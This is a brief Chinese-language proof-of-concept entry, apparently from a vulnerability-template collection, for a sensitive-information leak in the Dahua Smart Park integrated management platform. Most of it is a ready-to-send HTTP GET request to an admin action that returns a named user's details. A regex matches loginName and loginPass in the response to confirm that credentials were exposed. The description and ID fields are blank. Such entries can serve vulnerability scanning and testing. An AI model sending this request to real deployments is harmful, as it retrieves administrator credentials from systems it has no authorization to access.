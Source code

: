 ﻿# 大华智慧园区综合管理平台敏感信息泄露

> 更新时间：2023-12-04

> 漏洞编号：

> 漏洞说明：

> 漏洞特征：

> 验证脚本：HTTP

```
GET /admin/user_getUserInfoByUserName.action?userName=system HTTP/1.1
Accept: */*
Connection: Keep-Alive
```

> 响应代码特征：200

> 响应内容特征：^(?=.*?loginName)(?=.*?loginPass).*?$

> 上传文件定位：

> 验证文件来源：大华智慧园区综合管理平台敏感信息泄露.poc
